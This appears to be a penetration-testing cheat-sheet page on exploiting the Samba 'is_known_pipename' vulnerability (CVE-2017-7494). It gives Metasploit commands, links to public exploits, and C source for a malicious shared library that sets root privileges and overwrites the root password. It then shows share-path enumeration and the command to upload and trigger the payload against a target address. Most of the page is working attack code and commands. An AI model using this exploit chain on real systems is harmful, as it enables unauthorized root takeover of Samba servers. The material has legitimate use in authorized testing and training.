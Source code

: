 

### MSF

```
msf > use exploit/linux/samba/is_known_pipename
msf > set SMB::AlwaysEncrypt false
msf > set SMB::ProtocolVersion 1
msf > run
```



### Manually

* [https://github.com/opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)
* [https://github.com/joxeankoret/CVE-2017-7494](https://github.com/joxeankoret/CVE-2017-7494)

Compile `.so` SUID shared library:

{% code title="pwn.c" %}
```c
// gcc -shared -fPIC -o pwn.so pwn.c

#include <stdio.h>
#include <stdlib.h>

static void pwn() __attribute__((constructor));

void pwn() {
	setresuid(0,0,0);
	system("echo 'root:Passw0rd!'|chpasswd");
}
```
{% endcode %}

Get real share path on the target's filesystem:

```
$ rpcclient -U'%' -c'netsharegetinfo ShareName' 10.10.13.37
path:    /home/snovvcrash/sharename
```

Upload `pwn.so` to target and then run the exploit:

```
$ pip install virtualenv
$ virtualenv -p /usr/bin/python2.7
$ source venv/bin/activate.sh
$ pip install -r requirements.txt
$ . venv/bin/activate
$ ./exploit.py -t 10.10.13.37 -e pwn.so -s ShareName -r /home/snovvcrash/sharename/pwn.so -u anonymous -p ''
```


